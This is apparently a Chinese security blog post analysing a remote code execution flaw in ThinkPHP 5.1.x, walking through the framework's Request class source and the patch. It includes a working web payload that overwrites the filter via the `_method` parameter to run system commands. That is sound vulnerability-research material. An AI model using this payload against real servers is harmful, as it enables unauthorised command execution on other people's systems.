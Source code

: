 date: 2020-01-30
categories:
- cve复现
tags:
- cve复现
title: ThinkPHP 5.1.x-5.2.x全版本RCE 漏洞分析
---
# ThinkPHP 5.1.x-5.2.x全版本RCE 漏洞分析



## 影响范围

5.1.x-5.1.32  5.2.x(这个还没去看)



## 漏洞复现

补丁: https://github.com/top-think/framework/commit/2454cebcdb6c12b352ac0acd4a4e6b25b31982e6 

测试环境 5.1.29

**入口处关闭报错** 

![image283](https://i.loli.net/2020/01/30/2x4QWZYgmXjqo8r.png)



和5.0.x版本的漏洞有着相似之处,都是`$this->method`方法未过滤导致的任意变量覆盖,从而导致命令执行

通过`$_POST['_method']=xxxxx`来进行任意变量覆盖

我们选择覆盖`$this->filter`,翻找Request类中的函数发现还是`Request::input`处可以命令执行,下断点可以看到调用堆栈



![image527](https://i.loli.net/2020/01/30/dVyPeZHbYM3TFq7.png)



我们从`Request::param`处开始分析

```php
public function param($name = '', $default = null, $filter = '')
    {
        if (!$this->mergeParam) {
            $method = $this->method(true);

            // 自动获取请求变量
            switch ($method) {
                case 'POST':
                    $vars = $this->post(false);
                    break;
                case 'PUT':
                case 'DELETE':
                case 'PATCH':
                    $vars = $this->put(false);
                    break;
                default:
                    $vars = [];
            }

            // 当前请求参数和URL地址中的参数合并
            $this->param = array_merge($this->param, $this->get(false), $vars, $this->route(false));

            $this->mergeParam = true;
        }

        ...
    }
```

因为是POST请求所以会进入POST分支,跟进`Request::post`

```php
	public function post($name = '', $default = null, $filter = '')
    {
        if (empty($this->post)) {
            $this->post = !empty($_POST) ? $_POST : $this->getInputData($this->input);
        }

        return $this->input($this->post, $name, $default, $filter);
    }
```

接着便会调用`Request::input`,其中`$this->post`和`$filter`可控

跟进`Request::input`

```php
public function input($data = [], $name = '', $default = null, $filter = '')
    {
		...

        // 解析过滤器
        $filter = $this->getFilter($filter, $default);

        if (is_array($data)) {
            array_walk_recursive($data, [$this, 'filterValue'], $filter);
            reset($data);
        } else {
            $this->filterValue($data, $name, $filter);
        }

       ...
    }
```

因为`$data`是数组(`$_POST`),调用`array_walk_recursive($data, [$this, 'filterValue'], $filter);`

对`$data`中所有值调用`Request::filterValue`

跟进去

```php
private function filterValue(&$value, $key, $filters)
    {
        $default = array_pop($filters);

        foreach ($filters as $filter) {
            if (is_callable($filter)) {
                // 调用函数或者方法过滤
                $value = call_user_func($filter, $value);
            } elseif (is_scalar($value)) {
                if (false !== strpos($filter, '/')) {
                    // 正则过滤
                    if (!preg_match($filter, $value)) {
                        // 匹配不成功返回默认值
                        $value = $default;
                        break;
                    }
                } elseif (!empty($filter)) {
                    // filter函数不存在时, 则使用filter_var进行过滤
                    // filter为非整形值时, 调用filter_id取得过滤id
                    $value = filter_var($value, is_int($filter) ? $filter : filter_id($filter));
                    if (false === $value) {
                        $value = $default;
                        break;
                    }
                }
            }
        }

        return $value;
    }
```

阅读代码可知,filterValue会对`$_POST`中所有值调用`$filter`中每一个可以调用的函数或方法

且`$filter`=`$_POST`

因此有



```
http://127.0.0.1/public/
POST:  var1=exec&var2=calc.exe&_method=filter
```



## 补丁分析

对method进行了白名单限制

## 参考

 [https://www.smi1e.top/thinkphp-5-1-x5-2-x全版本-rce-漏洞分析/](https://www.smi1e.top/thinkphp-5-1-x5-2-x全版本-rce-漏洞分析/) 